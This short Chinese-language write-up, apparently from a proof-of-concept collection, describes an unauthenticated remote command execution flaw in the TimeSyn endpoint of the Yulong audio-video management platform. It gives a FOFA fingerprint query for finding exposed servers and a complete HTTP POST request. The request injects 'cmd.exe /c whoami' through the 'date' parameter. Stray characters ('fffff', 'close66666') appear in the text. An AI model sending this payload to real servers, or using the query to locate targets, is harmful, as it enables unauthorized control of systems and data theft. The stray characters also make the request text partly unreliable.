 # 誉龙视音频综合管理平台TimeSyn存在远程命令执行漏洞

誉龙视音频综合管理平台TimeSyn存在远程命令执行漏洞，未经身份验证的远程攻击者在目标服务器上执行任意系统命令，可能导致服务器被完全控制、数据泄露或破坏，严重威胁系统安全。

## fofa

```javascript
body="PView 视音频管理平台"
```
fffff
## poc

```javascript
POST /index.php?r=Third/TimeSyn HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close66666
Content-Type: application/x-www-form-urlencoded

cloudKey=0x0&date=|cmd.exe+/c+whoami+>+1.txt&time=1
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409162103838.png)
